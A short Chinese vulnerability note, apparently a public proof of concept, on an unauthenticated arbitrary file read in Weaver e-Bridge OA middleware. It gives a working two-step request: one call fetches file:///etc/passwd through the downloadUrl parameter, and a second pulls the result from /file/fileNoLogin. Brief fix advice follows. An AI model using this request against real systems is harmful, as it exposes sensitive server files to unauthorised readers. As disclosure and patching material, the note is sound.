


# 泛微OA云桥未授权任意文件读取

> 泛微云桥（e-Bridge）是上海泛微公司研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。
> 泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响范围
2018~ 2019 多个版本

## 漏洞复现

1. 直接发送请求到下面的目录【可以自定义downloadUrl 后面的参数内容】，在返回体中包含 `id` 字段
```http request
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```


2. 访问下面的url ，其中url 最后面的路径就是上面返回的 `id` 值
   /file/fileNoLogin/id


## 修复建议
* 关闭对于文件  `/file/fileNoLogin` 的路由
* 限制 `downloadUrl` 参数的取值范围

